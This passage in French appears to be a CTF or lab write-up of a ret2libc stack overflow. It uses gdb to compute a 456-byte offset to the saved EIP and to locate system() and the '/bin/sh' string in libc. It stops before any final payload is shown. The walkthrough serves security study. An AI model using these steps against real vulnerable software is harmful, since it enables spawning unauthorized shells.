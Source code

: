 Maintenant on doit récupérer l'adresse du tableau de 100 en posant un break apres l'instruction de chargement d'adresse du tableau dans EAX:

![](Pasted%20image%2020240809052454.png)

```
b *main+452
c
```

![](Pasted%20image%2020240809052627.png)

```
eax : 0xffffd534 -> adresse de tableau[0]
```

Maintenant on soustrait les deux adresses afin d'avoir l offeset qui nous permettera de changer l'EIP.

```
0xffffd534 => 4294956340
0xffffd6fc => 4294956796

4294956796 - 4294956340 = 456
```

Nous avons 456 octects pour arriver a l'EIP, sachant que le cast du deplacement est un uint, nous savons que nous effectuons des saut de 4 en 4 dans la memoire.
```
456 / 4 = 114
```

Maintenant il faut "system" et "/bin/sh"

![](Pasted%20image%2020240809054022.png)

On peux voir que la libc est précharger dans l espace mémoire 0xf7e2c000 -> 0xf7fcc000
Maintenant on recherche l adresse de la string "/bin/sh" via find:

```
(gdb) find 0xf7e2c000,0xf7fcc000,"/bin/sh"
0xf7f897ec
1 pattern found.
(gdb) 
```

```
(gdb) info functions system
All functions matching regular expression "system":

Non-debugging symbols:
0xf7e6aed0  __libc_system
0xf7e6aed0  system
0xf7f48a50  svcerr_systemerr
(gdb) 
```
